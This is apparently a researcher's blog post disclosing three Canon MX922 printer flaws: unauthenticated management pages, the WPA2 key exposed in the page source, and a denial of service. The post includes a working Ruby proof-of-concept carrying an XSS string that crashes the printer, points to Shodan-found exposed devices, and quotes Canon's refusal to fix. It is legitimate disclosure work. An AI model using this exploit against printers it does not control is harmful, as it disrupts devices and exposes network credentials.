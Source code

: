 ```yaml
---
title: "Canon, Y U NO Security?"
date: "2013-06-18T08:23:00-04:00"
comments: true
highlight: "true"
categories:
 - http
 - printer
 - canon
 - security
 - hacking
featured_image: y-u-no-guy.jpg
---
```


I recently bought a new printer at home, so my wife could print coupons without manually attaching to my office printer each time (Thanks coupons.com and all the other shady sites that require spyware-like software to print coupons, and often don't support network printers). I ended up picking up a [Canon MX922](https://www.amazon.com/dp/B00AVWKUJS/ref=as_li_ss_til?tag=mattandcom-20&camp=0&creative=0&linkCode=as4&creativeASIN=B00AVWKUJS&adid=07S04SQ3X3C73H5QDS7T&). It works awesome for her, and is connected over WiFi, so any device in the house can print to it. This got me thinking though, about how secure it was.

<!-- more -->

## No Credentials For Management Interface
### CVE-2013-4613

I found the IP of the status page of my router, and browsed to it. I was greeted with this management page. 

{{% figure class="img-responsive" src="/img/printer_1.png" %}}

I then figured I'd look at some of the more advanced settings, so I clicked the "Advanced" link. This brought me to a control panel for the printer. I saw a bunch of information, and was surprised that I had not entered <b>any</b> credentials. I figured maybe the status page would be anonymous, but surely I'd need some password to access the management pages. But then again, I hadn't used any password when setting up the printer using the LCD.

## Disclosure of Wireless Key and SSID
### CVE-2013-4614

I eventually browsed to the "Network Settings" tab, and saw my SSID of "Wireless". Not too bad, since it's broadcast in the air.

{{% figure class="img-responsive" src="/img/printer_2.png" %}}

I saw that it was using WPA2, as I configured. I clicked the "Modify" button, and saw that I could change all of the wireless settings. The worst was that when I saw the "Use WPA2" radio button, I saw that there was text in the password box.

{{% figure class="img-responsive" src="/img/printer_3.png" %}}

Assuming that there was a junk value in there, I viewed the source. Unfortunately, what I found was that the page did indeed have my printer's WPA2 password right there.

{{% figure class="img-responsive" src="/img/printer_4.png" %}}

I started thinking about this. It wasn't a <i>huge</i> issue, since you'd have to already know my WPA2 key to get to the printer, right? Oh, but what about if a device behind my firewall had been compromised by a remote attacker? The attacker would be free to navigate to my printer, and grab my password. If I was like just about every other person I talk to, I probably use the same password on everything, so I don't have to remember unique passwords. That means now an attacker could potentially login to my email, my SSH server, or even other machines on my LAN. This scared me slightly. 

After a while, I started thinking that perhaps there were people that could potentially put their printers directly connected to the internet, and have these management interfaces publicly exposed to anonymous clients. I checked out the [ShodanHQ](http://www.shodanhq.com/search?q=port%3A80+KS_HTTP+1.0) (FYI, it seems also Minolta uses this server banner as well). I saw that there were nearly 15,000 at the time of this writing, so I wrote up a quick Metasploit module to enumerate the information. It is located [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/scanner/http/canon_wireless.rb). Below is sample output from a selection of hosts I got from ShodanHQ and a host that should time out, as a control sample.

{{% figure class="img-responsive" src="/img/printer_5.png" %}}

## Denial of Service
### CVE-2013-4615

I kept playing around with the configuration interface, and while tinkering with some inputs in [Burp](http://portswigger.net/burp/), the device stopped responding. I walked to the other room, where we keep the printer, and noticed that it was completely unresponsive. I had to power-cycle the device, to which it came back up and told me it wasn't powered down properly.

When I reported this to Canon, they asked me for more information, so I provided them the following code as a proof-of-concept.

```
#!/usr/bin/ruby

require 'net/http'
require 'uri'

print 'Enter your printer IP Address: '
input = gets.strip

printer_url = "http://#{input}"

# Make the first request, to set the IP to invalid data
post = Net::HTTP.post_form(URI.parse(printer_url + '/English/pages_MacUS/cgi_lan.cgi'),
{'OK.x' => '61', 'OK.y' => '12', 'LAN_OPT1' => '2', 'LAN_TXT1' => 'Wireless', 'LAN_OPT3' => '1', 'LAN_TXT21' => '192', 
'LAN_TXT22' => '168', 'LAN_TXT23' => '1', 'LAN_TXT24' => '114"><script>alert(\'xss\');</script>', 'LAN_TXT31' => '255',
'LAN_TXT32' => '255', 'LAN_TXT33' => '255', 'LAN_TXT34' => '0', 'LAN_TXT41' => '192', 'LAN_TXT42' => '168', 
'LAN_TXT43' => '1', 'LAN_TXT44' => '1', 'LAN_OPT2' => '4', 'LAN_OPT4' => '1', 'LAN_HID1' => '1'})

# Make the second request, to trigger the DoS
begin
get = Net::HTTP.get(URI.parse(printer_url + '/English/pages_MacUS/lan_set_content.html'))
rescue Timeout::Error
puts 'Look at your printer to see it is unresponsive.'
end
```

If you look closely, you can see that I was testing for Cross-Site-Scripting, and put HTML in the "LAN_TXT24" input box. Canon's javascript validation prevents this, but nothing stops you from manipulating the HTTP response. This is a prime example of why server-side validation is also required.

I ended up turning this into a Metasploit module as well. You can find it available [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/dos/http/canon_wireless_printer.rb). It works pretty similarly to most DoS modules:

{{% figure class="img-responsive" src="/img/printer_6.png" %}}

## Canon's Response

I responsibly disclosed these vulnerabilities to Canon, but they apparently don't deem them worthy of being fixed. I don't think they really "get it". Since they aren't going to fix it, I am releasing these details publicly. Below is their reply:


>Dear Mr. Andreko,
>
>Thank you for your patience in allowing Canon to respond.  We have confirmed that the two issues you described in your May 27th e-mail can occur in certain printers such as the MX922.  However, with respect to the issue of no password by default, please note that the inkjet printers which have network functionality such as the MX922 are designed for home use which is supposed to be secured.  For this reason, and for user convenience, the default setting does not require a password.  However, if a user has a particular concern about third parties accessing the user’s home printer, the default setting can be changed to add a password.
>
>Similarly, regarding the DoS issue, Canon believes that its printers will not have to deal with unauthorized access to the network from an external location as long as the printers are used in a secured environment.  The issue you described could only occur when unauthorized access to an unsecured network takes place from the outside.  Canon has long advised customers to ensure that their computers and printers are secured when used in a wireless LAN environment.  We will continue advising customers to use our inkjet printers in a secured network environment with a firewall.  However, even if the printer were not used in a secure environment, in the unlikely chance that this type of access occurred from outside, the printer would simply have to be unplugged and re-plugged to ensure normal operation.  In addition, if the network security settings on the printer had been changed by the external source as a result of the incident, then they would have to be changed back to the default settings along with unplugging and re-plugging the power cord to ensure normal operation.
>
>Again, we thank you for giving Canon the opportunity to investigate these issues and to respond to your concerns.
>
>Best regards,
>Joy
>Executive Response Representative
>Canon Customer Relations
>customer@cits.canon.com
>866-886-1901, x 2130


I understand, these vulnerabilites aren't super high priority. They're no ms08-067. But I would still think a vendor would want to fix them. When searching ShodanHQ, I found a bunch of printers from UCLA. I can only imagine the chaos when it becomes finals-week, and all the printers on campus stop working randomly. That'd be bad PR for Canon. Who knows what else is out there. I'd personally be interested in dumping the firmware of the printer, and seeing if there's a way to get remote code execution out of a crash. I'll chalk that up to my TODO list.
